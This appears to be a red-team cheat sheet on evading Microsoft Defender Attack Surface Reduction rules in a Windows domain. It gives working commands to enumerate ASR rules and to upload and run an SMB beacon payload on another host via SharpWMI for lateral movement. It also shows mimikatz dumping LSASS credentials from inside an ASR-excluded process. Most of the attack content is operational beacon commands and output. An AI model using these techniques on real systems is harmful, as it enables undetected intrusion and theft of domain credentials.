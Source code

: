 
[Attack Surface Reduction](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction) (ASR) is a set of hardening configurations which aim to mitigate common attack techniques used by threat actors.  ASR is enforced by various components of Windows Defender, such as the WdFilter driver.  ASR is therefore not available if an AV solution other than Defender is installed and registered as the primary AV provider on a computer.

* G2Jscript (non-functional)
* Process Creations (DONE)
* Credential Stealing (DONE)

ASR Rules can be enumerated by querying ASR via the command-line.

```
PS C:\> (Get-MpPreference).AttackSurfaceReductionRules_Ids
```

Rules can also be read remotely via the `Registry.pol` file via text on the DC's SYSVOL share.

```
PS C:\> gc "\\acme.corp\SYSVOL\acme.corp\Policies\{2CA2E24F-214A-43A1-A8EE-274F708807FD}\Machine\Registry.pol"
```

# Process Creations


* Moving laterally may cause issues and be detected by ASR through alerts. This can be seen when trying to move laterally via WMIExec.
* Bypassing this can be easy, mainly involving command-line exclusions

```
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=WKSTN-1 command="C:\Windows\System32\cmd.exe /c dir C:\Windows\ccmcache\ & C:\Windows\notepad.exe"
```

* Or by passing an SMB beacon into it (on the currently compromised machine) and using it as the SMB payload.

```
beacon> cd \\wkstn-1\admin$
beacon> upload C:\Payloads\smb_x64.exe
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=WKSTN-1 command="C:\Windows\smb_x64.exe --path C:\Windows\ccmcache\cache"

beacon> link wkstn-1.acme.corp TSVCPIPE-8401022c-70ed-48b4-8231-7461af611337
[+] established link to child beacon: 10.10.120.101
```

# Credential Stealing (LSASS)

* An ASR rule affecting LSASS interactions (usually resulting an alert) can be present on machines with ASR enabled. Generally, this can be seen if the below error is encountered when trying to dump credentials from the LSASS process.

```
beacon> mimikatz !sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Modules informations
```

* This can be easily circumvented by injecting the spawnto child process functionality into an existing process that is excluded by ASR.

```
beacon> ps
3088  644           OfficeClickToRun.exe           x64   0           NT AUTHORITY\SYSTEM

beacon> mimikatz 3088 x64 sekurlsa::logonpasswords
```